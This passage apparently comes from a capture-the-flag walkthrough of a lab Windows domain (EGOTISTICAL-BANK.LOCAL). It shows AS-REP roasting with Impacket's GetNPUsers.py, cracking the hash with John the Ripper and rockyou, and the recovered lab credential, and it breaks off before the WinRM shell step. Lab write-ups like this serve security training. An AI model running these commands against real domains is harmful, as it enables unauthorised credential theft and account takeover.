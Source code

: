 Conditions:

* Have a valid username
* Pre-Authentication for user is disabled

### Requesting For Encrypted Ticket From AS

For Linux, [Impacket](https://github.com/SecureAuthCorp/impacket) is one of the go-to tools for pentesting Windows services including Kerberos.

`./GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile targetusers.txt -format john -outputfile hashes.asreproast`

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

User hsmith requires Pre-Authentication so we cannot get the TGT and the encrypted logon session key.

There's no error for user fsmith, which means that we have successfully obtained the required information for this user.

(The nmap script above and GetNPUsers use the same mechanism, so technically we could have skipped the separate user enumeration.)

### Cracking The Password

Next, crack the password using John The Ripper.

`john  --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast `

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
```

We now have a set of credentials.

* username: fsmith
* password: Thestrokes23

## Getting A Shell

From our port scan, we see that the port 5985 is open. It is the port for WinRM which is a remote management protocol (like SSH) for Windows.

There are several Linux tools for connecting to WinRM, but from my experience, the most reliable one is [evil-winrm](https://github.com/Hackplayers/evil-winrm).

To get a WinRM shell:
